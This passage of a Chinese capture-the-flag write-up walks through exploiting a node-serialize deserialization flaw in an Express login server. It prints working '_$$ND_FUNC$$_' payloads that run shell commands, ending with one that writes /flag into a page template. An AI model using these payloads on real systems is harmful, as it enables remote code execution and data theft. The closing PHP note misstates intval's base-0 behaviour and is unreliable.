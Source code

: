 ```js

    }else{

      returnres.status(200).send('密码错误');

    }

  }


});


// 启动服务器

app.listen(80, () => {

  console.log(`Server running at http://localhost:80`);

});

```

观察代码发现有一个auth()函数会反序列化token，在这里存在rce。

上网查询找到payload：`{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls',function(error, stdout, stderr){console.log(stdout)});}()"}`

但是反序列化过后没有回显，并且自动跳转/login。

考虑反弹shell，由于没有公网ip，所以在kali上使用ngrok进行内网穿透。

但是无论如何也无法getshell，无法判断到底是命令执行不成功还是我的监听有问题。

借助我好友友的电脑反弹了一下shell发现成功了，于是排除监听的问题。

经过学长的提醒可以执行sleep，判断命令是否成功执行。

但是执行sleep 5后很快啊，就得到了响应，一点也不睡。

> 学长说 `大抵是因为nodejs异步编程，并且反序列化出来的这个只是个函数自己去后台执行了，并不会阻塞web端的正常处理`。

于是尝试标准重定向到./views/login.ejs，在请教学长的过程中也是得到了知识的洗礼。

最终payload: `{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('cat /flag > ./views/login.ejs',function(error, stdout, stderr){console.log(stdout)});}()"}`。

## 知识总结

### PHP

在 PHP 中，`intval($num, 0)` 函数将字符串或数字转换为整数，并且第二个参数 `0` 指定了使用默认的基数（即十进制）。

### Linux权限
